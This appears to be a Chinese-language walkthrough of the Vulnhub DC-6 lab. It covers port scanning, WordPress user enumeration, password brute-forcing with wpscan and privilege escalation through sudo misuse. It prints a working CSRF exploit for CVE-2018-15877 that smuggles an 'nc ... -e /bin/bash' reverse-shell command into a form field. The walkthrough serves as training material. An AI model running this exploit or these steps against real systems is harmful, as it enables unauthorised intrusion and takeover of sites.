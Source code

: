 ```yaml
---
title: 'DC-6 : Walkthrough'
date: 2020-05-18T23:45:29+08:00
author: 2hanx
layout: post
categories:
  - Vulnhub
---
```

### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机       | IP              |
| --------- | --------------- |
| 本机（Win10） | `192.168.1.105` |
| Kali      | `192.168.1.112` |
| DC-6      | `192.168.1.106` |

### 扫描端口和版本信息

`nmap -A 192.168.1.106`

![1.png](https://i.loli.net/2020/05/18/pbuIPmVwRfFdNMB.png) 

### 访问 Web 并确定 Web 应用

根据 Nmap 扫描结果可知，Web 应用程序运行的是 **WordPress 5.1.1**。设置 _host_ 后访问 Web

![3.png](https://i.loli.net/2020/05/18/TIU7kaEZj6OCVzH.png) 

经过 OSINT 搜索，知道该版本的 WordPress 存在 **CSRF to RCE** 漏洞 ，不过利用条件是需要管理账户点击利用链接，这显然不太现实，因为该环境是虚拟机环境。不过出题人给了我们明确的提示：

```
OK, this isn't really a clue as such, but more of some "we don't want to spend five years waiting for a certain process to finish" kind of advice for those who just want to get on with the job.

cat /usr/share/wordlists/rockyou.txt | grep k01 &gt; passwords.txt That should save you a few years. ;-)
```

既然作者提示制作密码字典，显然需要我们暴力破解，使用 `wpscan` 工具进行暴力破解。在此之前执行下列命令枚举出用户

`wpscan --url http://wordy --enumerate u`

![4.png](https://i.loli.net/2020/05/18/c43kAql12PefKIJ.png) 

得到 5 个用户：`admin`、`mark`、`graham`、`sarah` 和 `jens`。目前为止我们知道用户名和密码字典，接下来同样使用 `wpscan`工具来爆破密码

`wpscan --url http://wordy -U users.txt -P passwd.txt`

结果得到一个用户和密码： `mark:helpdesk01`，之后使用该账户登陆到 WordPress

![5.png](https://i.loli.net/2020/05/18/SeQJy58icUp1DkO.png) 

经过探索，当前用户可以新建页面但却不能发布。不过倒是看到该 WordPress 安装的唯一的插件：_Activity Monitor_

![6.png](https://i.loli.net/2020/05/18/R8jLHFuQPbGfwCd.png) 

### Getshell

结果意料之内，该插件存在漏洞，可以进行 CSRF 攻击。我们将该文本复制到当前目录后再重命名为 `getshell.html`，并且需要稍许修改

```html
  <!--  WordPress Plainview Activity Monitor RCE
        [+] Version: 20161228 and possibly prior
        [+] Description: Combine OS Commanding and CSRF to get reverse shell
        [+] Author: LydA(c)ric LEFEBVRE
        [+] CVE-ID: CVE-2018-15877
        [+] Usage: Replace 127.0.0.1 & 9999 with you ip and port to get reverse shell
        [+] Note: Many reflected XSS exists on this plugin and can be combine with this exploit as well
  -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://wordy:80/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="ip" value="localhost | nc 192.168.1.112 6677 -e /bin/bash" />
      <input type="hidden" name="lookup" value="Lookup" >
      <input type="submit" value="Submit request" >
    </form>
  </body>
</html>
```

在 Kali 上开启简易 HTTP 服务器（`python3 -m http.server 8088`），同时监听 **6677** 端口，此外在 Win10 上访问该 HTML

![7.png](https://i.loli.net/2020/05/18/EDvC4ybsqhLfRkT.png) 

因为在 Win10 上登陆了 WordPress，只要我们在浏览器中点击该按钮，就会里面执行代码（提交的表单中的数据是发送给插件里的某一项功能）

![8.png](https://i.loli.net/2020/05/18/hvXFk6Kc1WVNaMw.png) 

Kali 接收到反弹 shell，并且成功 Getshell。之后在 `/home`目录下执行 `ls -lhaR` 命令时（递归显示文件夹），结果在 `/home/jens` 下发现 `backups.sh` 脚本文件，在 `/home/mark/stuff` 路径下发现 `things-to-do.txt` 文本文件，并且该文件给出了一个用户名和密码：`graham:GSo7isUM1D4`

![9.png](https://i.loli.net/2020/05/18/pfm3QhB8tGFI6LE.png) 

![10.png](https://i.loli.net/2020/05/18/CSIwa58uDi6fJPo.png) 

切换到该用户后查看 _sudo_ 权限我们可以知道他可以无密码执行 `jens` 用户的 `backups.sh` 脚本文件

![11.png](https://i.loli.net/2020/05/18/DOYPWzvoQVScbjg.png) 

之后步骤显而易见，执行命令：`echo "/bin/bash" > backups.sh` 后使用 sudo 权限执行该脚本就可以切换到 `jens` 用户

![12.png](https://i.loli.net/2020/05/18/i1F8Nh4dOI6SwBW.png) 

### 提权

如法炮制，`nmap`工具的 `--script` 参数可以加载文件，填入系统命令到文件就可以执行

![13.png](https://i.loli.net/2020/05/18/eK3cBIg6lCWZM7j.png) 

### 总结

  1. `wpscan` 工具使用 API KEY 进行常规扫描： 
    `wpscan --url xxx -e --api-token xxx`

  2. `wpscan` 工具枚举用户：
    `wpscan --url xxx --enumerate u`

